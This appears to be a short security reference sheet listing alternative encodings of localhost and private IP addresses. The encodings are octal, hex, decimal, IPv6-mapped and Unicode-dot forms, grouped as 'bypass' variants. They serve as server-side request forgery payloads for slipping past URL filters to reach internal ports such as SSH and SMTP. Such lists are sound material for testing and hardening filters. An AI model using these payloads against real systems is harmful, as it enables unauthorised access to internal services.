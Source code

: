 ```yaml
---
tags:
  - web-app-security
---
```


# Local Host

```bash
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001

# Localhost
<http://127.0.0.1:80>
<http://127.0.0.1:443>
<http://127.0.0.1:22>
<http://127.1:80>
<http://127.000000000000000.1>
<http://0>
http:@0/ --> <http://localhost/>
<http://0.0.0.0:80>
<http://localhost:80>
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
<http://①②⑦.⓪.⓪.⓪>

# CDIR bypass
<http://127.127.127.127>
<http://127.0.1.3>
<http://127.0.0.0>

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
<http://2130706433/> = <http://127.0.0.1>
<http://3232235521/> = <http://192.168.0.1>
<http://3232235777/> = <http://192.168.1.1>

# Octal Bypass
<http://0177.0000.0000.0001>
<http://00000177.00000000.00000000.00000001>
<http://017700000001>

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
<http://0x7f000001/> = <http://127.0.0.1>
<http://0xc0a80014/> = <http://192.168.0.20>
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001
```